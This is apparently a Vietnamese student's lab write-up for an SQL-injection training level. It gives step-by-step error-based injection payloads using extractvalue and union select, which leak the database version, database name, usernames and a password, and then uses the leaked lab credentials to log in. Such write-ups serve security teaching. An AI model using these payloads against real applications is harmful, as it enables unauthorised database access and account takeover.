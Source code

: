 # <div align="center"><p> SQL-Injection/Level_9</p></div>
 ## Họ và tên: Mai Thị Hoàng Yến
 ## Ngày báo cáo: Ngày 06/5/2022
 ### MỤC LỤC
   [SQL-Injection](#gioithieu)
   
### Nội dung báo cáo 
#### SQL-Injection <a name="gioithieu"></a>
- B1: Đây là trang web của level9.

  ![image](https://user-images.githubusercontent.com/101852647/167064518-639d8742-a1ed-43b3-b8e9-b33a7a4d0616.png)

- B2: Thử chèn 1' thì thấy trang web trả về thông báo lỗi.

  ![image](https://user-images.githubusercontent.com/101852647/167064630-128c830b-3f1b-4305-9890-3d270518710d.png)

- B3: Thử chèn `' union select 1,2#` vẫn thấy thông báo lỗi.

  ![image](https://user-images.githubusercontent.com/101852647/167064709-7c53bd83-c5c4-40d5-b845-911942202004.png)

- B4: Bây giờ chúng ta sẽ sử dụng câu lệnh `' or extractvalue(0x0a,concat(0x0a,(select version())) or ' ` để tìm phiên bản.

  ![image](https://user-images.githubusercontent.com/101852647/167064842-333002c9-e138-408a-a118-3f8fbcaa46cb.png)

- B5: Bây giờ chúng ta sẽ sử dụng câu lệnh `' or extractvalue(0x0a,concat(0x0a,(select database())) or ' ` để tìm tên database.

  ![image](https://user-images.githubusercontent.com/101852647/167064892-82f5ba2d-778d-4239-82c6-a3030a2d03ec.png)

- B6: Sử dụng câu lệnh ` ' or extractvalue(0x0a,concat(0x0a,(select group_concat(username) from level9_users))) or '` để tìm username. Kết quả trả về cho chúng ta tên `username=TheBlueFlower`

  ![image](https://user-images.githubusercontent.com/101852647/167064943-b13a7c3f-9494-497a-b0af-ca65ad11f3fa.png)

- B7: Sử dụng câu lệnh ` ' or extractvalue(0x0a,concat(0x0a,(select group_concat(password) from level9_users))) or '` để tìm password.Kết quả trả về cho chúng ta `password= this_oassword_is_SEC//Ure.promised!`

  ![image](https://user-images.githubusercontent.com/101852647/167064977-534098ca-a66e-4bf4-a196-a0af2d990b00.png)

- B8: Thử đăng nhập `ussername=TheBlueFlower ` và `password=this_oassword_is_SEC//Ure.promised! ` và kết quả trả về đăng nhập thành công.

  ![image](https://user-images.githubusercontent.com/101852647/167065092-9e7c3671-40eb-427e-944b-3e704a8ecc9e.png)

